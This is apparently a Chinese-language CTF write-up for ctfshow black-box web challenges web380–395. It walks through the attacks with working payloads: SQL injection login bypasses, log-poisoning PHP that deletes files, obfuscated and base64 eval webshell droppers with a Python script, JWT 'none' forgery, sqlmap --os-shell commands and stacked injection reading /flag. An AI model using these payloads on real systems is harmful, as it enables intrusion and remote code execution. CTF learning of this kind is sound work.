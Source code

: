 ## ctfshow_黑盒测试

玩点有意思的黑盒测试

### web380

![image-20221223174217622](黑盒测试.assets/image-20221223174217622.png)

打开页面到处点了一下并没有发现什么可疑的地方

直接扫后台

```bash
[17:43:01] 200 -    0B  - /flag.php
[17:43:25] 200 -  119B  - /page.php
```

直接访问`/flag.php`是没回显的

![image-20221223174421400](黑盒测试.assets/image-20221223174421400.png)

访问`page.php`

```
https://bef57593-24e7-43af-a254-6b0a6ea55810.challenge.ctf.show/page.php?id=flag
```

得到flag

### web381

与上题一样访问`page.php`

![image-20221223174626636](黑盒测试.assets/image-20221223174626636.png)

规定了前缀和后缀，感觉没法利用

访问源码发现一个奇怪的路径

![image-20221223174810890](黑盒测试.assets/image-20221223174810890.png)

访问`/alsckdfy`得到flag ？？？？？

### web382

接着访问上题的路径，这次是一个登录框

简单的sql注入，登陆进去就拿到flag

```
p=1&u=1'||1=1;#
```

### web383

同上

### web384

提示`密码前2位是小写字母，后三位是数字`

我就不爆破了。。

`账号 admin 密码 xy123`

### web385

访问`install/?install`重置密码

然后用`admin admin888`登陆

### web386

访问`clear.php`

![image-20221223183029567](黑盒测试.assets/image-20221223183029567.png)

那估计就是**file**是参数

访问`/install`是说已经安装过了，那就删除`?file=install/lock.dat`，然后重置密码登陆

### web387

直接用`clear.php`删不掉了

有一个`debug`

可以**文件包含**

```php
http://fb1d3e45-2ece-4ee3-af3c-50b4a55bb762.challenge.ctf.show/debug/?file=/var/log/nginx/access.log
```

直接日志文件包含删掉**lock.dat**

```php
user-agent:<?php unlink('/var/www/html/install/lock.dat')?>
```

然后继续上述步骤

### web388

多了一个目录`/alsckdfy/editor/`

日志文件包含多了过滤

**预期解**

 [CVE-2017-1002024](https://wiki.96.mk/Web安全/Kindeditor/（CVE-2017-1002024）Kindeditor <%3D4.1.11 上传漏洞/)

上传一个免杀🐎绕过

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

然后利用`/debug`写入日志

![image-20221223191744828](黑盒测试.assets/image-20221223191744828.png)

然后日志包含，执行php代码

然后访问`1.php` **rce**

**非预期**

绕过日志文件的写入

```python
import requests
import base64
url="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/"
url2="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)
```

### web389

在上题的基础上多了一个`jwt`，直接**none**加密伪造绕过就好了

```python
from email import header
import jwt
import datetime

#自己组织payload
payload = {
  "iss": "admin",
  "iat": 1671849947,
  "exp": 1671857147,
  "nbf": 1671849947,
  "sub": "admin",
  "jti": "03991dd75449ec147dc38c7caa8596d7"
}
header={
  "alg": "none",
  "typ": "JWT"
}

jwt_token=jwt.encode(payload, #payload
                     "", #key
                     algorithm='none', #算法
                     headers=header #header
                     )
print(jwt_token)
```

### web390

page页面又直接的php文件变成了

```
http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1
```

存在**sql注入**

无任何过滤，那就直接上**sqlmap**了

```bash
sqlmap -u "http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1" --os-shell
```

可以直接拿到**shell**

### web391

注入点变了

```
http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1
```

同上sqlmap一把梭

```bash
sqlmap -u "http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1" --os-shell
```

### web392

同上

### web393

多了一个搜索功能，先利用search.php进行堆叠注入，将flag插入到搜索功能中的数据库中

```
search.php?title=1';insert into link values(10,'a','file:///flag');
```

然后搜索10就好了

```
link.php?id=10
```

### web394-395

第一种是和上题一样，只不过多了一个**hex**编码

第二种办法是**ssrf打redis**，因为title是存在url访问，可以打ssrf的



